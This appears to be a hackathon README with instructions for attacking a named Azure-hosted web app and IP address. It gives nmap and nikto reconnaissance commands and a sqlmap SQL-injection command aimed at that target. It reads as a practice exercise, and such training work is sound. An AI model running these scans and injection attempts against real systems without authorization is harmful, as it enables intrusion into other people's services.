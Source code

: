 # WebSite Attack by AndreMurrel
Web site attack created by Andre Murrel for FTA hackaton Februare 2022

This is instructions on how to execute a website attack. It was created by Andre Murrel for a hackaton played by Rudnei, Andre, Simona, Ricardo, Andrej and Andrew.

## Information utilized

- Web app: https://owaspdirect-prunoavl6xr2y.azurewebsites.net 
- App GW: 52.249.241.69

## Enumeration and Discovery

    Nmap -v -O -Pn 52.249.241.69 --traceroute 
    #silent scan of IP and 1000 ports if ICMP is blocked 

    nikto -h 52.249.241.69 
    //nikto -h https://owaspdirect-prunoavl6xr2y.azurewebsites.net 
    //nikto -h https://owaspdirecprunoavl6xr2y.azurewebsites.net –ssl

## ATTACK Attempt at SQL Injection (this throws the kitchen sink at the Website) 

    sqlmap -u "https://owaspdirect-prunoavl6xr2y.azurewebsites.net" --data="id=1&str=val" -b 

